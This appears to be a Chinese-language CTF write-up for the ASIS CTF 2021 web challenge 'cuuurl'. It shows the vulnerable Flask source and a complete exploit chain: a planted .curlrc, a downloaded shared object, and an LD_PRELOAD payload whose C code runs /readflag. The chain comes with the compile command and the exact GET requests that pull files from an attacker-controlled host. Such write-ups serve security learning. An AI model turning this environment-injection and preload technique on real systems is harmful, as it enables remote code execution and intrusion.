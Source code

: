 ```yaml
---
title: ASIS CTF 2021
date: 2021-12-30 10:58:00
category: CTF Writeup
tags: 
	- ASIS CTF
---
```


## Web

### cuuurl

```
Do you know how to pronounce "curl"?
Download source code from here.
```

核心代码：

```python
@app.route('/')
def index(): #Poor coding skills :( can't even get process output properly
	url = request.args.get('url') or "http://localhost:8000/sayhi"
	env = request.args.get('env') or None
	outputFilename = request.args.get('file') or "myregrets.txt"
	outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
	result = ""

	if(env):
		env = env.split("=")
		env = {env[0]:env[1]}
	else:
		env = {}

	# print("env: ", env)

	master, slave = pty.openpty()
	os.set_blocking(master,False)
	try:
		subprocess.run(["/usr/bin/curl","--url",url],stdin=slave,stdout=slave,env=env,timeout=3,)
		result = os.read(master,0x4000)
	except Exception as e:
		os.close(slave)
		os.close(master)
		report = str(e)
		report += "\nurl: " + url + "\nenv: " + str(env) + "\noutputFilename: " + outputFilename
		return report,200,{'content-type':'text/plain;charset=utf-8'}

	os.close(slave)
	os.close(master)

	if(not os.path.exists(outputFolder)):
		os.mkdir(outputFolder)

	if("/" in outputFilename):
		outputFilename = secrets.token_urlsafe(0x10)

	with open(f"{outputFolder}/{outputFilename}","wb") as f:
		f.write(result)

	return redirect(f"/view?file={outputFilename}", code=302)
```

题目业务逻辑为：

-   使用curl命令访问任意url并写入内容到指定目录的任意命名的文件下，同时可以配置环境变量env
-   通过/view下传参文件名，访问文件内容

一开始尝试file://协议读取flag，发现没有权限，但是给了一个binary文件可以读取flag

```dockerfile
RUN chmod 400 /flag.txt
RUN chmod 111 /readflag
RUN chmod +s /readflag
```

因此思路是想办法执行根目录下readflag文件，得到flag

因为文件名可以任意写，且目录已知，通过curl官方文档 [curl - How To Use](https://curl.se/docs/manpage.html#CURLHOME) 可以得知curl会首先寻找HOME环境变量目录下的.curlrc文件作为配置文件，在.curlrc文件中可以任意添加curl的参数。而env环境变量可以通过请求指定，确保能够访问到.curlrc文件。

所以可以写个.so文件然后通过env变量LD_PRELOAD执行.so文件，进而执行readfile。.curlrc文件如下：

```
--output /tmp/test.so
```

test.c：

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    system("/readflag");
}
```

编译成.so文件：

```bash
gcc -fPIC -shared -o test.so test.c -nostartfiles
```

最后调整GET请求参数就可以拿下flag了~

```http
GET /?url=http://IP/curlrc.txt&env=&file=.curlrc HTTP/1.1
GET /?url=http://IP/test.so&env=HOME=/app/outputs/DIRECTORY&file= HTTP/1.1 // 发送这个请求的时候服务器会返回报错，但是实际上已经执行成功了。调试发现具体报错为：[Errno 11] Resource temporarily unavailable，但并没有找到很好的解释为什么会报这个错误
GET /?url=http://IP/&env=LD_PRELOAD=/tmp/test.so&file= HTTP/1.1
GET /view?file=myregrets.txt HTTP/1.1
```




